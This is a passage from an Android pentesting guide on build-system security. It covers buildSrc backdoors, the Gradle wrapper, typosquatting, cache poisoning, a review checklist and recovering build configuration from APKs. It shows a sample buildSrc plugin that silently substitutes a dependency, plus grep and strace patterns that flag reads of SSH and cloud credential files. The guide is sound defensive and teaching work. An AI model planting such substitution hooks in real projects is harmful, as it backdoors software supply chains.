> **`buildSrc`** is a magic directory name. If a directory called `buildSrc` exists at the root of a
> Gradle build, Gradle compiles it as a separate project **before evaluating anything else**, and puts
> its output on the classpath of every build script. `build-logic` is the modern convention for the same
> idea, wired up explicitly through `includeBuild` in `settings.gradle`.

The security properties follow directly:

- Its code runs on **every** invocation of the build, including `./gradlew tasks` and IDE import.
- It runs **before** the app's own build scripts, so it can modify them, add tasks, or intercept
  dependency resolution.
- It is Kotlin or Groovy source in the repository, so it looks like project code to a casual reviewer
  and is frequently excluded from security review as "just build tooling".
- A pull request touching only `buildSrc/` looks harmless in a review UI.

```kotlin
// buildSrc/src/main/kotlin/AuditHook.kt — the shape of a realistic backdoor
// Nothing here is unusual Gradle. Every line has a legitimate counterpart in real projects.
class AuditHook : Plugin<Project> {
    override fun apply(target: Project) {
        target.afterEvaluate {
            // Substitute one artefact for another at resolution time, everywhere, silently.
            configurations.configureEach {
                resolutionStrategy.dependencySubstitution {
                    substitute(module("com.squareup.okhttp3:okhttp"))
                        .using(module("com.internal.mirror:okhttp:4.12.0"))
                }
            }
        }
    }
}
```

`resolutionStrategy` substitution is a *legitimate and documented* Gradle feature — organisations use
it to redirect to internal forks. That is exactly why it is a good hiding place. In review, every
`dependencySubstitution`, `force`, `eachDependency` and `resolutionStrategy` block deserves the question
"what is this redirecting, and to what?".

**Review checklist for `buildSrc`/`build-logic`:**

```bash
# host
find buildSrc build-logic -name "*.kt" -o -name "*.kts" -o -name "*.groovy" 2>/dev/null | xargs wc -l
grep -rnE "exec\(|ProcessBuilder|Runtime\.getRuntime|URL\(|HttpClient|Socket\(" buildSrc/ build-logic/
grep -rnE "resolutionStrategy|dependencySubstitution|eachDependency|force\(" buildSrc/ build-logic/
grep -rnE "System\.getenv|System\.getProperty|readText\(\)|writeText\(" buildSrc/ build-logic/
```

#### 5.4.4 `gradle-wrapper.jar` and the wrapper properties

The Gradle wrapper is a small committed program whose job is to download the correct Gradle
distribution. It consists of a shell script, a batch file, a properties file — and a **checked-in JAR**.

```properties
# gradle/wrapper/gradle-wrapper.properties — the safe form
distributionBase=GRADLE_USER_HOME
distributionPath=wrapper/dists
distributionUrl=https\://services.gradle.org/distributions/gradle-8.9-bin.zip
distributionSha256Sum=258e722ec21e955201e31447b0aed14201765a3bfbae296a46cf60b70e66db70
networkTimeout=10000
zipStoreBase=GRADLE_USER_HOME
zipStorePath=wrapper/dists
```

| Property | Why a reviewer reads it |
|---|---|
| `distributionUrl` | Must be `https://services.gradle.org/` (or a controlled internal mirror). Any other host, or plain `http://`, is a finding. |
| `distributionSha256Sum` | **Its absence is a finding.** Without it the wrapper accepts whatever the URL serves. |
| `gradle-wrapper.jar` | A binary in the repository that executes on the first `./gradlew`. It must be byte-identical to the official one for the declared version. |

```bash
# host — verify the committed wrapper JAR against the official checksum published by Gradle
sha256sum gradle/wrapper/gradle-wrapper.jar
# compare against the published checksum for that Gradle version at
# https://gradle.org/release-checksums/

# host — regenerate the wrapper from a trusted Gradle installation instead of trusting the commit
gradle wrapper --gradle-version 8.9 --gradle-distribution-sha256-sum <official-sum>
```

> **Pentester's Note**
> Public tooling exists to validate wrapper JARs across an organisation's repositories, and it exists
> because tampered wrapper JARs have been found in the wild. In a repository review, this is a ten
> second check with a binary answer, and it is one of the few build findings that is objectively
> verifiable rather than a matter of judgement. Check it every time.

#### 5.4.5 Compromised Maven artefacts and typosquatting

Maven Central requires PGP signatures and a verified group-ID namespace, which raises the bar above
`npm`, but three residual risks remain:

| Risk | Mechanism | Control |
|---|---|---|
| **Account takeover** | The legitimate maintainer's Sonatype credentials or signing key are stolen; a new version is published under the real coordinate | Dependency verification pinned to *known-good* checksums, so a new version fails until reviewed |
| **Typosquatting** | `com.squareup.okhttp3:okhttp` versus a lookalike group; `androidx.core:core-ktx` versus `androidx.core:core-ktz` | Version catalog reviewed once; no ad-hoc coordinates in module build files |
| **Abandoned coordinate reuse** | A namespace whose owner disappears is re-registered | Inventory dependencies and their maintenance status |

And two Android-specific ones:

| Risk | Mechanism |
|---|---|
| **`consumer-rules.pro` in an AAR** | A dependency ships R8 keep rules that are merged into your build silently. `-dontobfuscate` in a library's consumer rules disables obfuscation for the whole app. Read `configuration.txt` (§4.5). |
| **Manifest injection** | Covered in §3.10 and §5.3.2. A library edits your manifest. |

#### 5.4.6 JitPack and build-from-source services

```kotlin
// build.gradle.kts — every line here is a distinct problem
repositories { maven { url = uri("https://jitpack.io") } }
dependencies {
    implementation("com.github.someuser:somelib:master-SNAPSHOT")
    implementation("com.github.otheruser:otherlib:1.0.2")
}
```

JitPack builds a library **on demand from a Git reference**. That has consequences no Maven Central
artefact has:

| Property | Consequence |
|---|---|
| `master-SNAPSHOT` resolves to whatever is on that branch **now** | The code you compile changes without any change to your repository |
| A tag can be deleted and re-pushed to a different commit | Even a "pinned" version is not immutable unless you pin the commit hash |
| The identity is a **GitHub account**, not a verified namespace | An account takeover, or a repository transfer, changes what you build |
| JitPack builds the project, running its Gradle build | The library's build script executes on JitPack's infrastructure, and its output is what you consume |

If JitPack is required, pin to a **commit hash** (`com.github.user:lib:abc1234`), which JitPack
supports and which is immutable, and add dependency verification checksums on top. Better: fork the
library, review it, publish it to your own internal repository, and depend on that.

#### 5.4.7 Build cache poisoning

Gradle's remote build cache stores **task outputs** keyed by a hash of task inputs. A cache hit means
Gradle skips the work and copies the stored output.

```properties
# gradle.properties
org.gradle.caching=true
```

```kotlin
// settings.gradle.kts
buildCache {
    remote<HttpBuildCache> {
        url = uri("https://cache.acme.internal/cache/")
        isPush = System.getenv("CI") == "true"     // only CI writes
    }
}
```

The threat: an attacker with **write access to the cache** can store a malicious output under the hash
of a legitimate task's inputs. Every subsequent build fetches the trojanised classes instead of
compiling them, and the source is untouched.

| Control | Detail |
|---|---|
| Push access restricted to trusted CI | `isPush = false` for developers, which is also the Gradle-recommended default |
| Authenticated, HTTPS-only cache | Never an anonymous-write cache |
| `--no-build-cache` for release builds | A release should be compiled, not fetched |
| Reproducible builds and periodic clean rebuilds | Detects divergence between cached and freshly built output |

> **Mental Model**
> A build cache is a *memoisation table for a function you assume is pure*. Poisoning it is exactly
> equivalent to corrupting a memoised result: the inputs look right, nobody re-derives the answer, and
> the wrong value propagates silently forever. Anything that can write to that table has the same power
> as anything that can edit your source — with none of the visibility.

#### 5.4.8 The platform-build equivalents

Everything above concerns Gradle. The platform build has its own supply-chain surface, which is
different in shape:

| Platform-build risk | Mechanism | Where to look |
|---|---|---|
| Malicious `genrule` | The one place a shell command can appear in `Android.bp` | `grep -rn "genrule" --include=Android.bp` and read every `cmd:` |
| `Android.mk` shell escapes | `$(shell …)`, `LOCAL_POST_INSTALL_CMD` | Vendor and device directories |
| Prebuilt binaries with no source | `java_import`, `android_app_import`, `cc_prebuilt_library`, `LOCAL_PREBUILT_MODULE_FILE` | Every OEM tree has many; enumerate and hash them |
| `repo` manifest pointing at an uncontrolled remote | `.repo/manifests/default.xml` | Check every `<remote>` and `<project>` revision — a branch name is mutable, a SHA is not |
| Unsigned or test-key-signed release | `sign_target_files_apks.py` skipped | `apksigner verify --print-certs` on framework APKs |
| Modified `prebuilts/` toolchain | A patched clang produces backdoored binaries from clean source | Hash `prebuilts/clang/…` against a fresh sync; this is the "trusting trust" scenario |

### 5.5 The pentester's build-file checklist

This is the deliverable of the chapter for source-assisted work. Work top to bottom; each line is a
specific thing to extract, and the right-hand column says what you do with it.

**Repository shape**

| # | Extract | Why |
|---|---|---|
| 1 | `settings.gradle(.kts)`: every repository, in order; `content { }` filters; `repositoriesMode` | Dependency confusion exposure (§5.4.1) |
| 2 | `gradle/wrapper/gradle-wrapper.properties`: `distributionUrl`, `distributionSha256Sum` | Wrapper integrity (§5.4.4) |
| 3 | SHA-256 of `gradle/wrapper/gradle-wrapper.jar` versus the official checksum | Tampered wrapper (§5.4.4) |
| 4 | Existence and full contents of `buildSrc/`, `build-logic/`, `*.init.gradle` | Code that runs before everything (§5.4.3) |
| 5 | Presence of `gradle/verification-metadata.xml` | Its absence is a finding (§5.4.2) |
| 6 | Every applied plugin and its coordinate and version | Third-party code at configuration time |

**Application identity and surface**

| # | Extract | Why |
|---|---|---|
| 7 | `applicationId`, `namespace`, `versionCode`/`versionName` | Identity; must match the APK you are testing |
| 8 | `minSdk`, `targetSdk`, `compileSdk` | `targetSdk` gates dozens of platform security behaviours |
| 9 | The complete list of build types and product flavours, and which is shipped | Which variant you must actually analyse |
| 10 | Every `manifestPlaceholders` entry | Values injected into the manifest, sometimes credentials |
| 11 | The full merged manifest and the merger report | The real component surface (§3.10, §5.3.2) |
| 12 | Every `<uses-permission>` in the merged manifest that is not in `src/main` | Permissions a library added |

**Release hardening**

| # | Extract | Why |
|---|---|---|
| 13 | `isMinifyEnabled`, `isShrinkResources` on the release build type | Hardening posture |
| 14 | `proguard-rules.pro` **and** `mapping/release/configuration.txt` | Over-broad keeps, including from libraries (§4.5) |
| 15 | `isDebuggable`, `applicationIdSuffix`, `testOnly` per build type | Debug leakage (§5.3.3) |
| 16 | `signingConfig` on release: where do the credentials come from? | Committed keystores (§5.3.4) |
| 17 | `enableV1Signing` … `enableV4Signing` | v1-only signing on a modern `minSdk` is a finding |
| 18 | Whether the artefact is an AAB and whether Play App Signing is used | Certificate expectations (§3.14) |

**Secrets and configuration**

| # | Extract | Why |
|---|---|---|
| 19 | Every `buildConfigField`, `resValue`, `manifestPlaceholders` value | Embedded configuration and secrets (§5.3.1) |
| 20 | `gradle.properties`, `local.properties`, `*.properties`, `google-services.json` | Credentials in build inputs |
| 21 | `git log --all` for previously committed secrets and keystores | History outlives a `git rm` |
| 22 | Any `assets/` file that looks like configuration | Keys, endpoints, certificates |

**Dependencies**

| # | Extract | Why |
|---|---|---|
| 23 | `gradle/libs.versions.toml`, or every `implementation`/`api` line | The declared inventory |
| 24 | `./gradlew :app:dependencies --configuration releaseRuntimeClasspath` | The **real** inventory, transitives included |
| 25 | Any version using `+`, `latest.release`, `-SNAPSHOT`, or a JitPack coordinate | Non-reproducible and mutable (§5.4.6) |
| 26 | Any dependency on `compileOnly` that code appears to use at runtime | `NoClassDefFoundError` waiting to happen |
| 27 | Known-vulnerable versions, via OWASP Dependency-Check or an SCA tool | Standard vulnerable-component finding |

**Native**

| # | Extract | Why |
|---|---|---|
| 28 | `externalNativeBuild` configuration, `cppFlags`, `abiFilters`, `ndkVersion` | Hardening flags (§3.17) |
| 29 | `debugSymbolLevel` | Whether shipped `.so` files are symbolised |
| 30 | `CMakeLists.txt` link flags: RELRO, `-fstack-protector-strong`, `_FORTIFY_SOURCE` | Native exploitability |

**Process**

| # | Extract | Why |
|---|---|---|
| 31 | CI configuration (`.github/workflows/`, `.gitlab-ci.yml`, `Jenkinsfile`) | Where signing happens and what credentials are in scope |
| 32 | `lintOptions`/`lint { abortOnError }` and whether lint runs in CI | Suppressed findings |
| 33 | Whether any security scanning runs at all | Programme-level finding |

> **Pentester's Note**
> Run this checklist **before** you open JADX. It takes forty minutes on a real repository and it
> routinely produces two or three reportable findings on its own, plus a map that makes the rest of the
> engagement faster. The script `scripts/gradle-audit.py` in this chapter automates items 1–27 and
> prints the residue you must judge by hand.

### 5.6 OWASP MASVS / MASTG mapping

| MASVS control | How the build system determines it |
|---|---|
| **MASVS-STORAGE-1/2** | `android:allowBackup`, `android:dataExtractionRules` and `debuggable` in the merged manifest are build outputs; `run-as` on a debuggable build defeats storage protections entirely |
| **MASVS-CRYPTO-1/2** | `buildConfigField`, `resValue` and `assets` are where hardcoded keys arrive |
| **MASVS-NETWORK-1/2** | `networkSecurityConfig` and `usesCleartextTraffic` are merged manifest attributes; the debug source set is where trust-all managers live |
| **MASVS-PLATFORM-1** | The merged manifest — including every library-injected component — is the definition of the exposed IPC surface |
| **MASVS-PLATFORM-2** | WebView debugging enabled in a shipped variant |
| **MASVS-CODE-1** | Third-party dependency inventory and known-vulnerable versions come from build files |
| **MASVS-CODE-2** | `debuggable`, `testOnly`, debug signing key, debug-only dependencies |
| **MASVS-CODE-3** | Signature scheme selection (v1/v2/v3/v4) and certificate provenance |
| **MASVS-CODE-4** | `targetSdk` determines which platform hardening applies to the app at runtime |
| **MASVS-RESILIENCE-1..4** | `minifyEnabled`, keep rules, `mapping.txt` handling, native hardening flags |

Relevant MASTG activity areas: manifest and build configuration review, code-quality and
build-setting checks, dependency inspection, and signature verification. See
[71-OWASP-Mobile](../71-OWASP-Mobile/README.md) for the full mapping methodology.

### 5.7 Bug bounty patterns

Patterns that recur in public Android programmes, described as classes rather than as specific reports:

| Pattern | What the researcher did |
|---|---|
| Injected exported component reached from a browser | Found a `BROWSABLE` intent filter from a library in the merged manifest, reached it from a web page, and chained it into intent redirection or WebView loading |
| Debug build published to production track | Verified the signing certificate as the Android debug key, then demonstrated `run-as` reading session tokens |
| Backend credential in `BuildConfig` or `resources.arsc` | Extracted with `strings`/`aapt2 dump`, then demonstrated the credential's authority against the vendor's API |
| Firebase database open to the world | Extracted the project ID from `google-services.json` embedded in `resources.arsc` and demonstrated unauthenticated reads |
| `mapping.txt` attached to a public release | Downloaded it and demonstrated complete de-obfuscation of the shipped APK |
| Dependency confusion in a public repository's build config | Demonstrated the internal coordinate was resolvable from a public repository (**responsibly** — never by publishing a package) |
| Signing key committed in git history | Found via history search, demonstrated by opening the keystore with the committed password |

> **Warning**
> Do **not** demonstrate dependency confusion by actually publishing a package to a public repository.
> Publishing to a namespace you do not own is at best a terms-of-service violation and at worst an
> unauthorised-access offence, it affects every other consumer of that coordinate, and it cannot be
> undone. The correct proof is to show that the coordinate is unclaimed and that the build's repository
> order would consult the public repository — which is a documentation exercise, not an action.

### 5.8 How malware uses the build system

Malware interacts with the build system on the *authoring* side. The techniques worth recognising:

| Technique | Detail |
|---|---|
| Repackaging | Decompile a popular APK, inject a payload into Smali or add a library, rebuild with `apktool b`, re-sign with the attacker's key. The signature will not match the original — which is why sideloading is the delivery method. |
| Malicious SDK distribution | Publish a genuinely useful SDK (ad network, analytics, image loader) that also does something else. The manifest merger installs its components in every host app automatically. This is efficient: one compromise, thousands of apps. |
| Build-time payload injection | Compromise a developer's CI and add a task that modifies output between compilation and packaging. The published app is signed with the legitimate key and passes every store check. |
| Dropper via dynamic feature or dynamic code loading | Ship a benign base APK; deliver the payload later, defeating store scanning and base-APK-only analysis |
| Copied build configuration | Malware families frequently reuse a build template, so `applicationId` patterns, `versionCode` schemes, identical `proguard-rules.pro`, and identical `buildConfigField` names are usable family-clustering signals |

### 5.9 Forensics: what build artefacts prove

| Artefact | What an analyst concludes |
|---|---|
| `META-INF/com/android/build/gradle/app-metadata.properties` | Which AGP version built the APK — bounds the build date and the toolchain |
| Signing certificate and its validity dates | Who built it; whether the key is shared with other samples in the corpus |
| `META-INF/*.version` files from AndroidX/Play libraries | Exact library versions, which dates the build |
| `classes.dex` `BuildConfig` fields | Build type, flavour, `versionName`, sometimes a git hash or timestamp |
| `resources.arsc` package name versus manifest `package` | Repackaging leaves mismatches |
| `META-INF/` structure and the presence of v1 signatures | Whether `apktool`+`apksigner` (repackaging) or AGP (original) produced the file |
| Kotlin `.kotlin_module` files and `DebugProbesKt.bin` | Kotlin and coroutines versions; `DebugProbesKt.bin` is a debug-mode artefact that should not ship |
| Absence of `mapping.txt`-consistent naming | Whether the sample was obfuscated at all — useful for attributing build sophistication |

> **Under the Hood**
> `DebugProbesKt.bin` is worth knowing by name. It is packaged by the `kotlinx-coroutines-debug`
> artefact. Its presence in a release APK proves a debug-oriented dependency reached production —
> exactly the `implementation`-instead-of-`debugImplementation` mistake from §5.3.3 — and it is a
> one-command check:
> ```bash
> # host
> unzip -l app-release.apk | grep -i "DebugProbesKt.bin"
> ```

---

## 6. Reverse Engineering Perspective

The build system is not a runtime construct, so "reversing the build system" means something specific:
**reconstructing the build configuration from the artefact it produced.** Given only an APK, you can
recover a surprising amount of the `build.gradle` that made it. This section is the technique for doing
that, because on a black-box engagement it is the only way to run §5.5's checklist at all.

### 6.1 The fingerprints an APK carries

```bash
# host — the complete inventory of build-related metadata in an APK
unzip -l app-release.apk | grep -iE "META-INF|\.version|kotlin|\.properties|\.textproto"
```

| Entry in the APK | What it tells you | How to read it |
|---|---|---|
| `META-INF/com/android/build/gradle/app-metadata.properties` | The exact AGP version, and the app-metadata schema version | `unzip -p app.apk META-INF/com/android/build/gradle/app-metadata.properties` |
| `META-INF/version-control-info.textproto` | Git repository and commit, if the developer enabled `vcsInfo` | `unzip -p app.apk META-INF/version-control-info.textproto` |
| `META-INF/*.version` (e.g. `androidx.core_core.version`) | The exact version of many AndroidX and Play libraries | `unzip -l app.apk \| grep '\.version$'` |
| `META-INF/*.kotlin_module` | Kotlin was used; the module names correspond to Gradle module names | `unzip -l app.apk \| grep kotlin_module` |
| `kotlin-tooling-metadata.json` | The Kotlin compiler version and the build system that invoked it | `unzip -p app.apk kotlin-tooling-metadata.json` |
| `DebugProbesKt.bin` | `kotlinx-coroutines-debug` shipped — a debug dependency in release | Presence alone is the finding |
| `META-INF/MANIFEST.MF`, `*.SF`, `*.RSA`/`*.DSA` | v1 (JAR) signing was enabled | Their presence means v1 is on |
| `META-INF/BNDLTOOL.RSA` / `BNDLTOOL.SF` | The APK was generated by **bundletool**, i.e. it came from an AAB | Distinguishes a Play-delivered split from a developer-built APK |
| `stamp-cert-sha256` | Play's source-stamp verification metadata | The APK came through Play |
| `assets/dexopt/baseline.prof`, `baseline.profm` | A **Baseline Profile** was included | See [13-ART](../13-ART/README.md) |
| `classes.dex` … `classesN.dex` | Whether multidex was needed | Many DEX files implies a large app or a low `minSdk` |
| `resources.arsc` stored uncompressed | `useLegacyPackaging = false` / AGP 8 defaults | `unzip -v app.apk \| grep resources.arsc` — method `Stored` |
| `lib/<abi>/*.so` stored, 16 KB aligned | Modern packaging and page-size support | `unzip -v` and `zipalign -c -P 16 -v 4 app.apk` |

```bash
# host — a one-shot build fingerprint of any APK
APK=app-release.apk
echo "== AGP =="        ; unzip -p "$APK" META-INF/com/android/build/gradle/app-metadata.properties 2>/dev/null
echo "== VCS =="        ; unzip -p "$APK" META-INF/version-control-info.textproto 2>/dev/null
echo "== Kotlin =="     ; unzip -p "$APK" kotlin-tooling-metadata.json 2>/dev/null
echo "== Libraries ==" ; unzip -l "$APK" | grep -oE "META-INF/[a-zA-Z0-9_.-]+\.version" | sort
echo "== Signing =="    ; apksigner verify --verbose --print-certs "$APK" | head -30
echo "== Badging =="    ; aapt2 dump badging "$APK" | grep -E "package:|sdkVersion|targetSdkVersion|debuggable|native-code"
```

> **Pentester's Note**
> `META-INF/version-control-info.textproto` is a modern AGP feature (`android { buildTypes { release {
> vcsInfo { include = true } } } }`, on by default for release builds in recent AGP) that embeds the
> **git repository URL and commit SHA** in the shipped APK. On a black-box engagement this occasionally
> hands you the client's internal repository host name and the exact commit, which is a scoping gift
> and sometimes a finding in itself if the repository is publicly reachable. Check it on every APK.

### 6.2 `BuildConfig` in JADX

`BuildConfig` is the most reliable single class to open first, because it states the build type, the
flavour, the version, and any `buildConfigField` the developer added.

```java
// JADX output — com/example/app/BuildConfig.java (unobfuscated build)
public final class BuildConfig {
    public static final String APPLICATION_ID = "com.example.app";
    public static final String BUILD_TYPE = "release";
    public static final boolean DEBUG = false;
    public static final String FLAVOR = "production";
    public static final int VERSION_CODE = 4210;
    public static final String VERSION_NAME = "4.2.1";
    public static final String API_BASE = "https://api.example.com";
    public static final String SENTRY_DSN = "https://abc123@o0.ingest.sentry.io/0";
}
```

Under R8 with obfuscation, the class is renamed but the *values* survive, because obfuscation renames
identifiers and never touches string contents. The class becomes something like `a/a/b/c.java` and the
fields become `a`, `b`, `c` — but `"https://api.example.com"` is still there, verbatim, in the string
pool.

```bash
# host — find BuildConfig regardless of naming, by looking for its distinctive value set
jadx -d out app-release.apk
grep -rn --include=*.java -l 'BUILD_TYPE\|APPLICATION_ID' out/sources/ | head

# host — when it is obfuscated, look for the values instead of the names
grep -rn --include=*.java -E '"(release|debug)"' out/sources/ | head
strings -n 8 classes.dex | grep -E "^https?://" | sort -u
```

> **Under the Hood**
> There is a subtlety worth understanding. `BuildConfig.API_BASE` is a `static final String` initialised
> with a compile-time constant, so `javac` **inlines** it into every call site. R8's tree shaker can
> then legitimately remove the `BuildConfig` class entirely, because after inlining nothing references
> it. So a heavily optimised app may have **no `BuildConfig` class at all** while every one of its
> values is still present, scattered through the DEX at each place it was used. If you cannot find
> `BuildConfig`, you have not found evidence of absence — search for the values.

### 6.3 In Smali

The inlining behaviour is visible directly in Smali, and recognising it is what lets you distinguish
"a constant the build injected" from "a string the code computed".

```smali
# An inlined BuildConfig String constant. There is NO field read here —
# the value was folded into the instruction stream by javac.
const-string v0, "https://api.example.com"
invoke-static {v0}, Lcom/example/net/Api;->setBase(Ljava/lang/String;)V
```

```smali
# By contrast, a value NOT inlinable (a non-constant, or an int array, or an object)
# produces a real static field read:
sget-object v0, Lcom/example/app/BuildConfig;->ENDPOINTS:[Ljava/lang/String;
```

```smali
# BuildConfig.DEBUG in a release build: javac performed dead-code elimination.
# The guarded block is not present at all. You will see the call site absent,
# NOT an "if-eqz" comparing against a false constant. If you DO see this pattern:
sget-boolean v0, Lcom/example/app/BuildConfig;->DEBUG:Z
if-eqz v0, :cond_0
invoke-static {v1, v2}, Landroid/util/Log;->d(Ljava/lang/String;Ljava/lang/String;)I
:cond_0
# ...then the flag was NOT a compile-time constant at that site — usually because the
# reference crossed a module boundary or went through a method. The logging ships.
```

```smali
# The signature of an app that shipped logging with no guard at all — extremely common.
const-string v0, "AuthManager"
new-instance v1, Ljava/lang/StringBuilder;
invoke-direct {v1}, Ljava/lang/StringBuilder;-><init>()V
const-string v2, "token="
invoke-virtual {v1, v2}, Ljava/lang/StringBuilder;->append(Ljava/lang/String;)Ljava/lang/StringBuilder;
invoke-virtual {v1, p1}, Ljava/lang/StringBuilder;->append(Ljava/lang/String;)Ljava/lang/StringBuilder;
invoke-virtual {v1}, Ljava/lang/StringBuilder;->toString()Ljava/lang/String;
move-result-object v1
invoke-static {v0, v1}, Landroid/util/Log;->d(Ljava/lang/String;Ljava/lang/String;)I
```

```bash
# host — find every unguarded logging call in a decoded APK
apktool d -f app-release.apk -o out/
grep -rn "Landroid/util/Log;->" out/smali*/ | wc -l
grep -rn -B8 "Landroid/util/Log;->d(" out/smali*/ | grep -c "BuildConfig;->DEBUG"
# The ratio of the second number to the first tells you how much logging is unguarded.
```

### 6.4 Telling a release build from a debug build, from the artefact alone

| Signal | Debug | Release |
|---|---|---|
| Signing certificate | `CN=Android Debug, O=Android, C=US` | The vendor's certificate, or Google's Play-signed one |
| `application-debuggable` in `aapt2 dump badging` | Present | Absent |
| Class and method names in JADX | Meaningful (`AuthManager.validateToken`) | Single letters (`a.b.c`) — unless `minifyEnabled` was false |
| `BuildConfig.DEBUG` | `true` | `false` |
| Number of classes | Large; nothing shrunk | Smaller; unreferenced code removed |
| `META-INF/` v1 signature files | Often present | Often absent (v1 disabled for `minSdk >= 24`) |
| Debug-only libraries (`leakcanary`, `flipper`, `chucker`, `stetho`) | Present | Should be absent |
| `res/` contents | All densities and locales | Shrunk, if `shrinkResources` is on |
| `applicationId` | Often has a `.debug` suffix | Clean |

> **Warning**
> "Class names are obfuscated, therefore this is a release build" is a bad inference and it gets made
> constantly. `minifyEnabled` is a property of the *build type*, and a team can perfectly well ship a
> release build with `minifyEnabled = false` — many do, to keep crash reports readable. Conversely a
> debug build can have `minifyEnabled = true`. The signing certificate and the `debuggable` flag are the
> reliable discriminators; naming is only a hint.

### 6.5 Recovering the dependency list from an APK

You will not get `build.gradle` back, but you can reconstruct most of the dependency inventory.

```bash
# host — 1. version marker files, the most reliable source
unzip -l app-release.apk | grep -oE "META-INF/[a-zA-Z0-9_.-]+\.version"
for f in $(unzip -l app-release.apk | grep -oE "META-INF/[a-zA-Z0-9_.-]+\.version"); do
  printf "%-60s %s\n" "$f" "$(unzip -p app-release.apk "$f")"
done

# host — 2. package prefixes in the DEX, which survive obfuscation for library code
#         (libraries are usually kept by consumer rules, so their names stay)
jadx -d out app-release.apk
find out/sources -maxdepth 3 -type d | sed 's|out/sources/||' | sort -u | head -60

# host — 3. native libraries, which name themselves
unzip -l app-release.apk | grep "lib/" | awk '{print $4}' | sed 's|.*/||' | sort -u

# host — 4. distinctive resources: many SDKs ship uniquely named resources
aapt2 dump resources app-release.apk | grep -oE "^ *resource 0x[0-9a-f]+ [a-z]+/[a-z_0-9]+" | head -40
```

Then map versions to known vulnerabilities the usual way — the National Vulnerability Database, GitHub
Advisories, and OSV — and confirm each candidate by finding the vulnerable code path in the DEX rather
than reporting a version number alone. See [52-StaticAnalysis](../52-StaticAnalysis/README.md).

### 6.6 What obfuscation does, and does not, do to build configuration

| Item | Effect of R8 with obfuscation |
|---|---|
| Class, method and field **names** | Renamed |
| String **contents** | **Untouched.** Every URL, key and endpoint survives verbatim. |
| `resources.arsc` string values | Untouched by R8; only unreferenced entries are removed by `shrinkResources` |
| Manifest component names | **Untouched.** R8 keeps them (via `aapt_rules.txt`) because the platform instantiates them by name. |
| Permission names | Untouched — they are platform-defined strings |
| Native library file names and exported JNI symbols | Untouched |
| Classes with `native` methods | Names **kept**, by the default keep rule (§3.17) |
| Anything named in a layout XML | Kept |
| `BuildConfig` values | Inlined and preserved; the class may vanish while the values remain |

> **Mental Model**
> Obfuscation renames the *map*, not the *territory*. Every string the app must present to the outside
> world — a URL it connects to, a permission it requests, a component name the platform must resolve, a
> JNI symbol the linker must find — is a name in somebody else's namespace, and therefore cannot be
> renamed. That is why an obfuscated APK still tells you almost everything about its build
> configuration, and why obfuscation is never an answer to "how do we protect this value".

---

## 7. Dynamic Analysis

"Dynamic analysis of a build system" splits into two genuinely different activities, and both are
useful.

**(1) Observing a build as it runs** — treating Gradle as untrusted software and watching what it does.
**(2) Observing the *consequences* of build decisions on a running app** — reading `BuildConfig` from a
live process, confirming `debuggable`, checking which splits are installed.

### 7.1 Running an untrusted build safely

Everything in §5.4 says a build script is arbitrary code. The corollary is that analysing one requires
the same containment you would give a malware sample.

```bash
# host — a disposable, network-restricted, credential-free analysis container
docker run --rm -it \
  --network none \
  --user "$(id -u):$(id -g)" \
  -v "$PWD/target-project:/work:ro" \
  -w /work \
  eclipse-temurin:17-jdk bash

# Inside: read the files. Do NOT run ./gradlew unless you intend to execute the project.
```

If you must actually run the build to obtain the merged manifest and `configuration.txt`, do it with
the network mediated so you can see what it fetches:

```bash
# host — allow only the repositories the project claims to use, log everything else
# (mitmproxy in transparent mode, or a simple allow-list proxy)
mitmdump -p 8080 --set block_global=false -w build-traffic.mitm &

# host — point Gradle at the proxy and disable its daemon so nothing persists
./gradlew assembleRelease \
  --no-daemon \
  -Dhttps.proxyHost=127.0.0.1 -Dhttps.proxyPort=8080 \
  -Djavax.net.ssl.trustStore=/path/to/mitm-truststore.jks

# host — afterwards: what did the build contact?
mitmdump -nr build-traffic.mitm | grep -oE "https?://[^ ]+" | sort -u
```

```bash
# linux host — the low-tech version: what files and processes did the build touch?
strace -f -e trace=execve,openat -o build.strace ./gradlew --no-daemon assembleRelease
grep execve build.strace | grep -vE "gradle|java|clang|aapt2|d8|r8" | head -40
grep openat build.strace | grep -E "\.ssh|\.aws|\.gnupg|credentials|id_rsa|\.netrc"
```

> **Pentester's Note**
> The `openat` grep above is the highest-signal single command for detecting a hostile build script. A
> legitimate Android build has no reason to open `~/.ssh/id_rsa`, `~/.aws/credentials` or `~/.netrc`. If
> anything does, you have found it, and you have the process tree from `strace -f` to say *which* plugin
> did it. Run this once against a known-good project to learn the baseline, then against the target.

### 7.2 Reading the build's own reports

```bash
# host — every artefact the build produced that answers a security question
./gradlew assembleRelease

cat app/build/outputs/logs/manifest-merger-release-report.txt      # component provenance
cat app/build/outputs/mapping/release/configuration.txt            # merged R8 keep rules
cat app/build/outputs/mapping/release/seeds.txt                    # what R8 kept
cat app/build/outputs/mapping/release/usage.txt                    # what R8 removed
ls  app/build/outputs/mapping/release/mapping.txt                  # the de-obfuscation map
find app/build/intermediates -name "AndroidManifest.xml" -path "*erged*"

# host — a machine-readable dependency graph for tooling and reports
./gradlew :app:dependencies --configuration releaseRuntimeClasspath > deps.txt
./gradlew :app:dependencyInsight --configuration releaseRuntimeClasspath --dependency okhttp

# host — a Build Scan is the richest single record, but it uploads data;
# get explicit client permission before ever using it on their project
./gradlew assembleRelease --scan
```

> **Warning**
> `--scan` uploads a detailed description of the client's build — module names, dependency coordinates,
> task inputs, environment details, plugin versions — to a Gradle-operated service, and produces a URL
> that is unauthenticated by default. Never run it on a client project without written permission, and
> never paste the resulting URL into a report.

### 7.3 Confirming build decisions on a running device

```bash
# adb shell — is it debuggable, and how does the platform see it?
dumpsys package com.example.app | grep -E "flags=|pkgFlags=|versionCode|versionName|codePath"

# adb shell — the full split set actually installed (never assume base.apk is everything)
pm path com.example.app

# adb shell — what the app is allowed to do, as granted
dumpsys package com.example.app | sed -n '/requested permissions/,/install permissions/p'

# adb shell — every component the platform will resolve for this package
dumpsys package com.example.app | sed -n '/Activity Resolver Table/,/Registered ContentProviders/p'

# adb shell — signature, as the platform computed it
dumpsys package com.example.app | grep -A2 "signatures"

# adb shell — if debuggable, the whole private directory is readable with no root
run-as com.example.app ls -la /data/data/com.example.app/
```

### 7.4 Frida: reading build-injected configuration from a live process

The value of doing this at runtime rather than statically is that it catches values that were
*assembled* at runtime from obfuscated pieces, which a `strings` search misses.

```javascript
// scripts/dump-build-config.js
// Purpose: dump every BuildConfig-like class and every manifest meta-data value
//          from a running app, so you see the effective build configuration.
// Usage:   frida -U -f com.example.app -l scripts/dump-build-config.js --no-pause
Java.perform(function () {
    // --- 1. Every BuildConfig class, including those from libraries ---
